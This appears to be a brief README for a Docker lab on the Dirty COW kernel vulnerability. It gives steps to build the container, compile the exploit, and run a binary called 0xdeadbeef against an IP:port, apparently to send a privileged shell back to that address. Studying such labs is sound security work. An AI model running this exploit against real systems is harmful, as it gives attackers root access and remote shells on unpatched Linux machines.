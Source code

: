 # Dirty COW attack

# Build the container image
docker compose build
# docker-compose build

# Start the container
docker compose run d-cow bash

# Next
cd /dirtycow
make

./0xdeadbeef IP:port
./0xdeadbeef 172.18.0.2:5678